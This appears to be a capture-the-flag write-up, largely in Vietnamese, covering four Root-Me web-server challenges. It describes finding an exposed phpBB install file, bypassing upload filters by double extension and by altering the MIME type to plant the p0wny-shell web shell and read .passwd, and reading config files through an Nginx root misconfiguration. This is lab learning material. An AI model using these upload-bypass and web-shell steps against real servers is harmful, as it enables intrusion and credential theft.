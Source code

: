 ## [Install file](https://www.root-me.org/en/Challenges/Web-Server/Install-file)
### Steps to reproduce
    - Khi vào chall ta thấy trăng tinh. Crul + u để xem source code.
    - Có comment <!-- /web-serveur/ch6/phpbb" -->
    - Vào thử http://challenge01.root-me.org/web-serveur/ch6/phpbb --> khong có gì
    - Ở đây tôi dùng công cụ dirsearch để tìm các file ẩn.
    - dirsearch -u http://challenge01.root-me.org/web-serveur/ch6/phpbb -e * -x 400,403,404 -t 70 --max-rate=50 --proxy http://127.0.0.1:8080
    - Phát hiện thư mục /install
    - Vào http://challenge01.root-me.org/web-serveur/ch6/phpbb/install
    - Có file install.php
    - curl http://challenge01.root-me.org/web-serveur/ch6/phpbb/install/install.php
    - Copy the flag from the response.

## [File upload - Double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)
### Steps to reproduce
    - Test upload file abc.php --> bị chặn
    - Test upload file abc.php.png --> done
    - Sử dụng p0wny-shell để đọc file
    - git clone https://github.com/flozz/p0wny-shell.git
    - cd p0wny-shell/
    - mv shell.php shell.php.png
    - Truy cập http://challenge01.root-me.org/web-serveur/ch20/
    - Uload file shell.php.png
    - chạy như 1 terminal. ls,cd, cat .passwd
    - Copy the flag from the response

## [File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)
### Steps to reproduce
    - Sử dụng lại shell.php ở chall trên
    - cd p0wny-shell/
    - Test upload file shell.php --> bị chặn
    - Test upload file shell.php.png --> ok
    - Nhưng khi truy cập file thì bị lỗi không hoạt động shell
    - Tại file .png nên đang hiểu là ảnh
    - Sử dụng Burp Suite để sửa header Content-Type từ image/png và đổi tên file thành shell.php
    - oke shell hoạt động
    - chạy như 1 terminal. ls,cd, cat .passwd
    - Copy the flag from the response

## [Nginx - Root Location Misconfiguration](https://www.root-me.org/en/Challenges/Web-Server/Nginx-Root-Location-Misconfiguration)
### Steps to reproduce
    - Trong nginx config này có đoạn root /etc/nginx/;
    - Do đó ta có thể truy cập các file trong /etc/nginx/
    - curl http://challenge01.root-me.org:59093/nginx.conf  --> done
    - Thì thấy có include /etc/nginx/conf.d/default.conf;
    - curl http://challenge01.root-me.org:59093/conf.d/default.conf  --> done
    - Copy the flag from the response.
    - [Đọc thêm](https://viblo.asia/p/cac-cau-hinh-sai-nginx-pho-bien-khien-web-server-cua-ban-gap-nguy-hiem-part-1-6J3ZgNxLKmB)
    - https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/
    